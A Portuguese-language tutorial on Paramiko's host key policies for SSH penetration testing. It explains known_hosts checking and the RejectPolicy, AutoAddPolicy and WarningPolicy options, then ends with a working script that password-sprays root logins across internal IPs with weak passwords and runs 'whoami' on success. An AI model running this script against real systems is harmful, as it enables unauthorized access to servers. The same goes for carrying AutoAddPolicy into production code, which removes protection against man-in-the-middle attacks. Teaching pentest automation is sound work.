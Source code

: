# Paramiko em Testes de Invasão SSH 

**Data de Publicação:** 18 de Agosto de 2025  
**Autora:** Patrícia Canossa Gagliardi
**Ferramenta de Análise**: [`Paramiko`](https://www.paramiko.org/)
---

### **1. Introdução**

A automação é um pilar fundamental nos testes de invasão modernos. Ferramentas e scripts customizados permitem a execução de tarefas repetitivas em larga escala, como varreduras de rede, enumeração de serviços e ataques de força bruta. A biblioteca **Paramiko** para Python é uma das escolhas mais populares para interagir com o protocolo SSH.

Um dos primeiros obstáculos ao automatizar interações SSH é a **verificação da chave de host (host key)**. Este mecanismo de segurança, essencial para prevenir ataques **Man-in-the-Middle (MitM)**, pode interromper um script ao tentar se conectar a um servidor desconhecido. O método `set_missing_host_key_policy` do `Paramiko` oferece o controle necessário para lidar com essa situação.

Este artigo explora como e por que um pentester utilizaria essa funcionalidade, detalhando suas políticas e os riscos de segurança inerentes.

---

### **2. O Mecanismo de Verificação de Chave de Host SSH 🛡️**

Quando um cliente SSH se conecta a um servidor pela primeira vez, o servidor apresenta sua chave de host pública, que funciona como uma *"impressão digital"* ou um *"RG" digital*. O cliente então pergunta ao usuário se ele confia naquela chave. Se o usuário aceita, a chave é armazenada localmente, geralmente no arquivo `~/.ssh/known_hosts`.

Em conexões futuras, o cliente compara a chave apresentada pelo servidor com a que está armazenada.
* **Se as chaves corresponderem**, a conexão prossegue.
* **Se as chaves não corresponderem**, o cliente emite um alerta severo, pois isso pode indicar um ataque MitM.
* **Se o host for desconhecido (não está no `known_hosts`)**, o cliente solicita a verificação manual.

É exatamente este último ponto que o `Paramiko`, por padrão, trata como um erro, levantando uma exceção do tipo `SSHException` para forçar uma prática segura.

---

### **3. As Políticas do `set_missing_host_key_policy`**

O método `ssh.set_missing_host_key_policy()` permite ao desenvolvedor substituir o comportamento padrão. Ele aceita uma instância de uma classe de política. As principais são:

* **`RejectPolicy` (Padrão):**
    * **Ação:** Rejeita automaticamente a conexão com um host desconhecido, levantando uma exceção `SSHException`.
    * **Uso:** É a política mais segura e deve ser usada em qualquer aplicação de produção onde a identidade dos servidores é conhecida e estável.

* **`AutoAddPolicy`:**
    * **Ação:** Adiciona automaticamente a chave do host desconhecido ao arquivo `known_hosts` em memória e continua com a conexão. Não há nenhuma verificação.
    * **Uso:** Extremamente útil em **pentests para automação**, mas completamente insegura para uso geral.

* **`WarningPolicy`:**
    * **Ação:** Similar à `AutoAddPolicy`, mas emite um aviso (`warning`) para o log antes de adicionar a chave.
    * **Uso:** Um meio-termo que ainda permite a conexão automática, mas torna a ação de adicionar uma nova chave mais visível nos logs do script.

---

### **4. Aplicação em Cenários de Pentest 🕵️‍♂️**

Um pentester precisa de eficiência. Interromper um script de força bruta que testa credenciais em 200 hosts apenas para aprovar manualmente cada nova chave SSH é inviável. É aqui que `AutoAddPolicy` se torna uma ferramenta poderosa.

#### **Cenário 1: Brute Force ou Password Spraying em Múltiplos Alvos**

Imagine um script que testa uma lista de senhas fracas contra uma lista de IPs de servidores SSH descobertos na rede interna.

```python
import paramiko
import warnings

# Ignorar avisos de criptografia de baixo nível que o Paramiko pode gerar
warnings.filterwarnings(action='ignore', module='.*paramiko.*')

# Lista de alvos e credenciais
targets = ["192.168.1.101", "192.168.1.105", "192.168.1.112"]
username = "root"
passwords = ["root", "toor", "password", "123456"]

for host in targets:
    for password in passwords:
        try:
            ssh = paramiko.SSHClient()
            
            # Essencial para automação: aceita qualquer host desconhecido.
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            
            print(f"[*] Tentando conectar em {host} com user: {username} pass: {password}")
            ssh.connect(host, port=22, username=username, password=password, timeout=5)
            
            print(f"[+] SUCESSO! Credenciais válidas encontradas para {host}: {username}:{password}")
            
            # Executa um comando para confirmar o acesso
            stdin, stdout, stderr = ssh.exec_command("whoami")
            print(f"    |_ Resultado do comando 'whoami': {stdout.read().decode().strip()}")
            
            ssh.close()
            break # Para de testar senhas para este host
            
        except paramiko.AuthenticationException:
            print(f"[-] Falha na autenticação para {host} com a senha: {password}")
        except Exception as e:
            print(f"[!] Erro ao conectar em {host}: {e}")
            break # Para de testar senhas se o host estiver offline
    print("-" * 30)